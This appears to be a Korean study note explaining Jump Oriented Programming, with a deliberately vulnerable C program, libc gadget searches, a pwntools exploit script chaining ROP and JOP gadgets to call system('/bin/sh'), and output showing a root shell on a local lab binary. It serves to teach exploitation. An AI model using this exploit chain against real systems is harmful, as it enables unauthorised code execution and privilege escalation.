 # **Jump Oriented Programming**

JOP는 JMP 명령을 사용해 프로그램 흐름을 제어하는 Exploit 기술이다.  
JOP Gadget은 "Exploit에 필요한 Code + JMP 명령어"이다.  
JOP는 여러개의 Gadget들을 실행시키기 위해 별도의 Gadget과 구조가 필요하다. 

## **Proof of Concept**

```c
// Vuln Code
// gcc -fno-stack-protector -o jop jop.c -ldl
#define _GNU_SOURCE
#include <stdio.h>
#include <unistd.h>
#include <dlfcn.h>
  
void vuln(){
    char buf[50];
    void (*printf_addr)() = dlsym(RTLD_NEXT, "printf");
    printf("Printf() address : %p\n",printf_addr);
    read(0, buf, 256);
}
  
void main(){
    seteuid(getuid());
    write(1,"Hello ROP\n",10);
    vuln();
}
```

* 72개 이상의 문자를 입력하면 Return Address를 덮어쓸 수 있다.

```
gdb-peda$ x/24gx $rbp
0x7fffffffe3b0:	0x4141414141414141	0x000000000040070a
```

#### **Exploit Method**
1. ROP Gadget을 이용하여 rax에 system() 함수 주소 저장
1. JOP Gadget을 이용하여 RDI 레지스터에 "/bin/sh" 저장 후 "jmp rax" 명령어로 system() 함수 호출

#### **Find Gadget**

```
root@bs-virtual-machine:~/pwnable/jop# rp-lin-x64 -f /lib/x86_64-linux-gnu/libc-2.23.so -r 1 | grep "pop rax ; ret"
0x00033544: pop rax ; ret  ;  (1 found)
0x0003a727: pop rax ; ret  ;  (1 found)
0x0003a728: pop rax ; ret  ;  (1 found)
0x0003a7f7: pop rax ; ret  ;  (1 found)
0x0003a7f8: pop rax ; ret  ;  (1 found)
0x0003a8a0: pop rax ; ret  ;  (1 found)
0x0003a8a1: pop rax ; ret  ;  (1 found)
0x000abc07: pop rax ; ret  ;  (1 found)
0x00106272: pop rax ; ret  ;  (1 found)
0x00106273: pop rax ; ret  ;  (1 found)
0x001a1448: pop rax ; ret  ;  (1 found)
0x000caabc: pop rax ; retn 0x002F ;  (1 found)

root@bs-virtual-machine:~/pwnable/jop# rp-lin-x64 -f /lib/x86_64-linux-gnu/libc-2.23.so -r 2 | grep "pop rdi ; jmp rax"
0x00104052: pop rdi ; jmp rax ;  (1 found)
```

## **Exploit Code**
```python
from pwn import *

p = process('./jop')
p.recvline()
printf_addr = int(p.recvline().split(' ')[3],16)
libBase = printf_addr - 0x55800
system_addr = libBase + 0x45390
binsh_addr = libBase + 0x18cd57
pop_rax_ret = libBase + 0x33544
pop_rdi_jmp_rax = libBase + 0x104052

print('printf_addr: '+str(hex(printf_addr)))
print('libBase_addr: '+str(hex(libBase)))
print('system_addr: '+str(hex(system_addr)))
print('/bin/sh_addr: '+str(hex(binsh_addr)))
print('pop rax ; ret Gadget: '+str(hex(pop_rax_ret)))
print('pop rdi ; jmp rax Gadget: '+str(hex(pop_rdi_jmp_rax)))

payload = 'A'*72
payload += p64(pop_rax_ret)
payload += p64(system_addr)
payload += p64(pop_rdi_jmp_rax)
payload += p64(binsh_addr)


p.send(payload)
p.interactive()
```

## **Exploit**

```
root@bs-virtual-machine:~/pwnable/jop# python exploit.py 
[+] Starting local process './jop': pid 2257
printf_addr: 0x7fc07b8a5800
libBase_addr: 0x7fc07b850000
system_addr: 0x7fc07b895390
/bin/sh_addr: 0x7fc07b9dcd57
pop rax ; ret Gadget: 0x7fc07b883544
pop rdi ; jmp rax Gadget: 0x7fc07b954052
[*] Switching to interactive mode
$ 
$ id
uid=0(root) gid=0(root) groups=0(root)
$ pwd
/root/pwnable/jop
```

**References**  
<https://www.lazenca.net/pages/viewpage.action?pageId=16810290>